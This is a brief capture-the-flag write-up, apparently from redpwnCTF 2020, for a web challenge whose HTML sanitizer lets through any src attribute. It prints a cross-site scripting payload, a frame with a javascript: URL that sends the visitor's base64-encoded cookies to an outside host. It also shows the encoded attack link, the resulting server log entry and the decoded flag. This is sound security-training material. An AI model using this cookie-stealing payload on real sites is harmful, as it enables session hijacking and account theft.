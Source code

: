 # static-static-hosting

According to the clean/sanitize functions we're allowed tags with a src attribute, so we should be able to use a frame src.

```javascript
function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

Let's write a payload `<frameset><frame src="javascript:fetch('https://zoeyinthe.cloud/'+btoa(document.cookie))"></frameset>` and then use the site to encode
it to the URL `https://static-static-hosting.2020.redpwnc.tf/site/#PGZyYW1lc2V0PjxmcmFtZSBzcmM9ImphdmFzY3JpcHQ6ZmV0Y2goJ2h0dHBzOi8vem9leWludGhlLmNsb3VkLycrYnRvYShkb2N1bWVudC5jb29raWUpKSI+PC9mcmFtZXNldD4=`

When we send that link to the admin we end up with an entry in the logs of our site:

```
107.178.229.239 - - [23/Jun/2020:02:15:14 +0000] "GET /ZmxhZz1mbGFne3doMF9uMzNkNV9kMG1wdXIxZnl9 HTTP/1.1" 404 199 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/83.0.4103.0 Safari/537.36"
```

Decoding the base64 yields `flag=flag{wh0_n33d5_d0mpur1fy}`